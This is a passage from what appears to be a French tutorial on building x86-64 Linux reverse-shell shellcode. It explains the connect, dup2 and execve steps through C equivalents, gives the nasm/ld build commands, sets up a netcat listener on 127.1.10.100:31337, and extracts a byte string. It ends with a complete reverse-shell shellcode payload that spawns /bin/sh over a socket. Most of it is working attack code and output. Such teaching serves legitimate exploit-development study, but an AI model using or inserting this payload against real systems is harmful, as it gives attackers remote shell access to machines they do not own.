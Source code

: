 Ce bout de code est équivalent au code C suivant :
```c
// socketDescriptor contient le file descriptor du socket créé précédemment (résultat retourner par la fonction "socket")
// serv_addr corresponds à la structure contenant l'IP et le port de la cible
connect(socketDescriptor, (struct sockaddr *) &serv_addr, 17)
```

La fonction `redirection` permet de rediriger les flux de notre socket vers `stdin`, `stdout` et `stderr`.

Ce bout de code est équivalent au code C suivant :
```c
// socketDescriptor contient le file descriptor du socket créé précédemment (résultat retourner par la fonction "socket")
dup2(socketDescriptor, 0); // O corresponds à l'entrée standard "stdin"
dup2(socketDescriptor, 1); // 1 corresponds à la sortie standard "stdout"
dup2(socketDescriptor, 2); // 2 corresponds à la sortie d'erreur standard "stderr"
```

Enfin, la fonction `execShell` exécute un shell qui sera lancé sur notre cible via le socket.

Ce bout de code est équivalent au code C suivant :
```c
execve("//bin/sh", 0, 0);
```

Nous pouvons ensuite compiler notre code :
```shell
nasm -f elf64 reverseShell.asm
ld reverseShell.o -o reverseShell
```

Nous devons ouvrir un port sur notre machine à l'adresse que nous avons indiquée dans notre programme :
```shell
nc -l 127.1.10.100 31337 -v
```

Puis, nous exécutons notre programme :
```shell
./reverseShell
```

Nous obtenons alors une connexion entrante sur notre port et nous pouvons exécuter les mêmes commandes que dans un shell.

Maintenant que nous avons vérifié que notre programme fonctionne correctement nous pouvons récupérer le shellcode correspondant :
```shell
objcopy --remove-section .note.gnu.property reverseShell (cette commande supprime une section du programme qui ne nous est pas utile et qui génère des badchars)
for i in `objdump -D reverseShell | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done ; echo
```

Le résultat nous indique :
```shell
\x68\x7f\x01\x0a\x64\x66\x68\x7a\x69\x66\x6a\x02\x48\x31\xd2\x48\x31\xf6\x40\xb6\x01\x48\x31\xff\x40\xb7\x02\x48\x31\xc0\xb0\x29\x0f\x05\x48\x31\xd2\xb2\x11\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xc0\xb0\x2a\x0f\x05\x48\x31\xf6\xb0\x21\x0f\x05\x40\xfe\xc6\xb0\x21\x0f\x05\x40\xfe\xc6\xb0\x21\x0f\x05\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\x31\xf6\x56\x57\x48\x31\xd2\x48\x8d\x3c\x24\x48\x31\xc0\xb0\x3b\x0f\x05
```

